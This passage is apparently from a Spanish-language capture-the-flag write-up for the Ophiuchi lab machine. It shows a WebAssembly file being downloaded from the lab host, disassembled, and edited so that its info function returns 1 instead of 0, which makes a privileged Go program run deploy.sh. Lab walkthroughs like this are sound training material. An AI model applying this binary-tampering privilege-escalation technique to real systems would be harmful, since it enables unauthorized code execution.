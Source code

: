 ```bash
wget http://10.10.10.227:8000/main.wasm
--2023-03-25 01:21:43--  http://10.10.10.227:8000/main.wasm
Conectando con 10.10.10.227:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1479371 (1,4M) [application/wasm]
Grabando a: «main.wasm»

main.wasm              100%[=========================>]   1,41M   276KB/s    en 7,4s    

2023-03-25 01:21:51 (195 KB/s) - «main.wasm» guardado [1479371/1479371]

❯ ls
 yaml-payload   2021-07-03-ophiuchi.md   main.wasm
```

Ahora usando la herramienta previamente instalada haremos uso de `wasm2wat` sobre el archivo `main.wasm` y lo exportaremos como `main.wat`

```bash
❯ ls
 yaml-payload   2021-07-03-ophiuchi.md   main.wasm
❯ cat main.wat
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

Al leer el archivo vemos que hay una constante declarada con el valor de 0 `i32.const 0)` la cual genera el problema por el cual el `index.go` no nos puede ejecutar el `deploy.sh`, asi que la modificaremos esa variable y le pondremos el valor de `1`.

```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))

```
